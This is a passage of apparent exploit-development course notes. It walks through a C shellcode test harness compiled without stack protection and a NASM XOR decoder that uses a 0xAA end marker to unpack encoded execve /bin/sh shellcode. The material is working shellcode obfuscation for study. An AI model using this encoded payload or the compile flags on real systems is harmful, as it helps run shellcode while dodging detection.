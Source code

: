 ```c

        ret();

}
```

compile this

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

and run it

```
osboxes@osboxes:~/SLAE-Code/Shellcode/XOR-Encoder$ ./shellcode 
Shellcode Length:  45
$ 
$ 
$ 
```

So now you have the XOR decoder which decodes the encoded shellcode
and then passes control to it.

Now, before I move into analysis with gdb we could one small
modification or we rewrite decoder in slightly different way. How
is that? Well, one of the things which we had done is we statically
passed the length of the shellcode. Let's modify `xor-decoder.nasm`
to `xor-decoder-marker.nasm`.

And what I am going to do is at the end of `Shellcode` I will add 
0xaa. Now what is going to happen? Well, what we could just go ahead
and do is keep XORing each of the byte of `Shellcode` with 0xaa. And
the moment when `xor` ends up in a zero value we know that we've hit
the last byte. Because 0xaa is going to be a marker. And that's 
exactly what I am going to do here. 

I say if it is zero then jump to the `Shellcode`

```asm
global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi

decode:
        xor byte [esi], 0xAA
        jz Shellcode
        inc esi
        jmp short decode

call_decoder:

        call decoder

        Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a,0xaa
```
